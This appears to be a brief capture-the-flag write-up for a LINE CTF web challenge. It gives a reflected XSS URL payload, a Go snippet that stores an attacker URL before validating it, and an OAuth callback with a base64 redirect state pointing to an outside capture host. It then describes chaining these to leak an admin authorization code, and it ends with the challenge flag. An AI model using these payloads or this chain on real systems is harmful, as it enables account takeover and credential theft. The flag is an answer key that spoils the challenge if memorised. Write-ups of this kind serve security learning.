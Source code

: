 # Bugs

## Bug 1 - XSS on external/internal

```
http://35.200.122.11:20000/login?timeout={%22indicatorClass%22:%22%3C/style%3E%3Cimg%20src=1%20onerror=alert(1)%3E%3Cstyle%3Ess%22}%27%20x=%27&return_url=fuck://11%27%20content=%27hehehe%27%20http-equiv=%27asdf%27%20name=%27htmx-config
```

## Bug 2 - Store a malicious URL before returning with an error

```go
err := s.ValidationRegistRequest(w, r)
    s.UserStore.CreateUser(
        utils.GenUserID(),
        r.Form.Get("username"),
        r.Form.Get("password"),
        r.Form.Get("url"),
        false,
    )
    if err != nil {
        errors.ReturnError(w, err, errors.Descriptions[err])
        return nil
    }
```

## Bug 3 - Invalid state check (Open Redirect)

```
/api/auth/callback?code=NJU5NWI1MJQTMZHLNC0ZNDCWLWJKM2MTNGJIYJBLMWFIZJE4&state=eyJyZWRpcmVjdCI6ICJodHRwczovL25ta2xpbG0ucmVxdWVzdC5kcmVhbWhhY2suZ2FtZXMvZXh0ZXJuYWwifQ==

```

# Exploit

We can leak the admin's authorization code, which hasn't been used yet, by using bug 2 and setting a URL to `file:///auth/token.db`. After getting a code, we can make a bot login with an admin account, and then redirect (bug 3) to the internal page that has an XSS payload (bug 1).


**Flag: `LINECTF{f133d5cb85ececf2db78d1aef9d526fd}`**
